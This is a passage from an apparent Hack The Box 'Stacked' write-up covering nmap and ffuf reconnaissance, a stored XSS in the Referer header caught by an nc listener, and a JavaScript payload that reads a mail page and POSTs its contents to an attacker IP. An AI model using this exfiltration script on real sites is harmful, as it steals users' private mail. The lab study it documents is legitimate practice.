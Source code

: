 ### Don't reply on rustscan
```bash
❯ nmap -p2376 $IP -sV -sC
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 12:36 NZDT
Nmap scan report for 10.129.228.28
Host is up (0.17s latency).

PORT     STATE SERVICE     VERSION
2376/tcp open  ssl/docker?
| ssl-cert: Subject: commonName=stacked
| Subject Alternative Name: DNS:localhost, DNS:stacked, IP Address:0.0.0.0, IP Address:127.0.0.1, IP Address:172.17.0.1
| Not valid before: 2022-08-17T15:41:56
|_Not valid after:  2025-05-12T15:41:56
```

Nmap scan shows OpenSSH and Apache listening on their default ports, and a service that is potentially recognised as ssl/docker on port 2376.

### Subdomains
```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://$IP -H 'Host: FUZZ.stacked.htb' -fc 302

portfolio               [Status: 200, Size: 30268, Words: 11467, Lines: 445, Duration: 144ms]
```

### XSS in Referer header
It took about 1 min, then add mail to the host
```bash
❯ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.28] 60862
GET / HTTP/1.1
Host: 10.10.16.4:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Connection: keep-alive
```

Within a minute we get a request on our listener, meaning our payload was successfully stored on a page that someone visited from the mail.stacked.htb subdomain. The referer domain looks like some sort of email system, which could contain sensitive information. We can use JavaScript to force the client to retrieve the mail page and exfiltrate the output, starting with `id=1` (assuming the id parameter could represent either a mailbox or a message). We create the following script.js file:
```js
var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
	if(this.readyState == 4 && fetch_req.readyState == XMLHttpRequest.DONE) {
		var exfil_req = new XMLHttpRequest();
		exfil_req.open("POST", "http://10.10.14.43:3000", false);
		exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
	}
};
fetch_req.open("GET", "http://mail.stacked.htb/read-mail.php?id=1", false);
fetch_req.send();
```
